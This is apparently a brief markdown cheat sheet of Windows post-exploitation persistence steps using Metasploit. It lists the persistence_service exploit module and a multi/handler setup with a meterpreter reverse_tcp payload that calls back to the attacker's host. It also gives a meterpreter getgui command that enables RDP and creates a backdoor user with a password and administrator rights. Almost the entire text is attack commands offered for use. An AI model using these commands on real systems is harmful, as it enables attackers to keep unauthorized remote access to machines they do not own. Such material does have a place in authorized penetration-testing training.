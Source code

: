 
# You require elevated privileges in order to establish persistence on a Windows system
- __`search persistence_service`__
  - __`use exploit/windows/local/persistence_service`__
  - __remember the `LPORT` because we use same port to login__
  - __when you got successfully got persistence service then you can access the target anytime__
  - __So when you load the msfconsole do this things__
  - __`use multi/handler`__
  - __`set payload windows/meterpreter/reverse_tcp`__
  - > __You should use the same payload that you used before__
  - __set the `LHOST` and `LPORT` that you used before__
 
# Windows Persistence via RDP
 
- __Down below is a meterpreter command used to enable the RDP service if it is disable and create a new user__
- __This `hacker` user is added in `Remote Desktop Users` and `Administrators` group__
  - __`run getgui -e -u hacker -p hacker@123321`__
  - > __Note: You require elevated privileges in order to establish persistence on a Windows system.__
